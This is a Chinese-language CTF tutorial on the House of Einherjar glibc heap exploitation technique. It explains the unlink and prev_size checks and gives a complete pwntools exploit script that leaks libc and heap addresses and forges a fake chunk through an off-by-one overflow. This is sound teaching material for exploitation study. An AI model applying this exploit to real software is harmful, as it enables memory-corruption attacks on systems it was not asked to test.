


# House of Einherjar

## 1.基本原理

引用一下：house of einherjar 是一种堆利用技术，由 Hiroki Matsukuma 提出。该堆利用技术可以强制使得 malloc 返回一个几乎任意地址的 chunk 。其主要在于滥用 free 中的后向合并操作（合并低地址的 chunk），从而使得尽可能避免碎片化

即利用了 off by one 进行一字节的溢出，修改下一个堆块的 prev_size（在 use 状态下与前一个 chunk 是共享该区域的）和 PREV_INUSE 比特位，滥用 free 中的后向合并操作，从而实现 chunk 任意地址分配

因为 free 时会进行 unlink 操作，所以还需要绕过 unlink 的检查

unlink的基本检查：

* size大小的检查（glibc-2.26之后）：

  ```c
  if (__builtin_expect(chunksize(P) != prev_size(next_chunk(P)), 0))
  	malloc_printerr("corrupted size vs. prev_size");
  ```

  那么要使

  ```c
  fake_chunk_prev_size1 = fake_size
  ```
* 指针的检查：

  ```c
  if (__builtin_expect(FD->bk != P || BK->fd != P, 0))
      malloc_printerr(check_action, "corrupted double-linked list", P, AV);
  ```

  那么要使

  ```c
  fake_chunk->fd = &fake_chunk
  fake_chunk->bk = &fake_chunk
  ```
* glibc-2.29 起加入了 prevsize 的检查，house of einherjar 必须确保 fake chunk 的 fake_size 等于 chunk2 的 fake_prev_size2

  ```c
  /* consolidate backward */
  if (!prev_inuse(p)) {
    prevsize = prev_size (p);
    size += prevsize;
    p = chunk_at_offset(p, -((long) prevsize));
    if (__glibc_unlikely (chunksize(p) != prevsize))
      malloc_printerr ("corrupted size vs. prev_size while consolidating");
    unlink_chunk (av, p);
  }
  ```



## 2.利用思路

在glibc2.23的环境下：

```python
from pwn import *

elf_path = './pwn'
libc_path = './libc.so.6'
elf = ELF(elf_path)
libc = ELF(libc_path)
context(arch=elf.arch, os=elf.os, log_level="debug")
# context.terminal = ['tmux','splitw','-h']
ip = '8.147.135.93'
port = 37051

local = 1
if local:
    p = process([elf_path])
else:
    p = remote(ip, port)

# session = ssh(host='node5.buuoj.cn', port=26482, user='CTFMan', password='guest')
# p = session.process(['./vuln'])
#-----------------------------------------------------------------------------------------
it      = lambda                    :p.interactive()
sd      = lambda data               :p.send((data))
sa     	= lambda delim,data         :p.sendafter((delim), (data))
sl      = lambda data               :p.sendline((data))
sla     = lambda delim,data         :p.sendlineafter((delim), (data))
r       = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=False :p.recvuntil(delims, drop)
rl      = lambda                    :p.recvline()
l       = lambda str1               :log.success(str1)
li      = lambda str1,data1         :log.success(str1+' ========> '+hex(data1))
uu32    = lambda data               :u32(data.ljust(4, b"\x00"))
uu64    = lambda data               :u64(data.ljust(8, b"\x00"))
u32Leakbase = lambda offset         :u32(ru(b"\xf7")[-4:]) - offset
u64Leakbase = lambda offset         :u64(ru(b"\x7f")[-6:].ljust(8, b"\x00")) - offset
#-----------------------------------------------------------------------------------------

def add_chunk(index, size):
    sla(b"choice:\n", b"1")
    sla(b"index:\n", str(index).encode())
    sla(b"size:\n", str(size).encode())

def delete_chunk(index):
    sla(b"choice:\n", b"2")
    sla(b"index:\n", str(index).encode())

def edit_chunk(index, content):
    sla(b"choice:\n", b"3")
    sla(b"index:\n", str(index).encode())
    sla(b"length:\n", str(len(content)).encode())
    sa(b"content:\n", content)

def show_chunk(index):
    sla(b"choice:\n", b"4")
    sla(b"index:\n", str(index).encode())

def exit_p():
    sla(b"choice:\n", b"5")

add_chunk(0, 0x208)
add_chunk(1, 0x208)
add_chunk(2, 0xf8)
add_chunk(3, 0x28)

delete_chunk(0)
delete_chunk(2)
show_chunk(0)
libc.address = u64Leakbase(0x39bb78)
li("libc.address", libc.address)
edit_chunk(0, b'a'*8)
show_chunk(0)
heap_addr = u64(ru(("\x55", "\x56"))[-6:].ljust(8, b"\x00")) - 0x420
li("heap_addr", heap_addr)

edit_chunk(0, p64(libc.address + 0x39bb78))
add_chunk(0, 0x200)
add_chunk(2, 0xf8)

fake_chunk = b''
fake_chunk += p64(0)
fake_chunk += p64(0x411)
fake_chunk += p64(heap_addr + 0x10)
fake_chunk += p64(heap_addr + 0x10)
edit_chunk(0, fake_chunk)
edit_chunk(1, b'a' * 0x200 + p64(0x410) + p8(0))

delete_chunk(2)

gdb.attach(p)
pause()
it()
```

构造出来的效果：


